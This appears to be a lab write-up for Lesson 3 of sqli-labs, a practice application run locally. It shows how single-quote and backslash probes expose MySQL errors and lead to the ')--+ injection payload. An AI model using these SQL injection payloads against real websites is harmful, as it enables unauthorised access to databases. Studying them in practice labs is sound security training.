 #### 3. Lesson 3 - ``GET - Error based - Single Quote with twist - String``

```
http://127.0.0.1/sqli-labs/Less-3/
http://127.0.0.1/sqli-labs/Less-3/?id=1
http://127.0.0.1/sqli-labs/Less-3/?id=1'
```

![](images/3/1.png)

![](images/3/2.png)

![](images/3/3.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1
```

```
'1'') LIMIT 0,1' at line 1
'     1'    ') LIMIT 0,1         '
```

```
http://127.0.0.1/sqli-labs/Less-3/?id=1\
```

![](images/3/4.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\') LIMIT 0,1' at line 1
```

```
''1\') LIMIT 0,1' at line 1
''1\') LIMIT 0,1'
'   '1\') LIMIT 0,1   '
```

```sql
select login_name, password from table where id=('our_input')
```

```
http://127.0.0.1/sqli-labs/Less-3/?id=1')--+
```

![](images/3/5.png)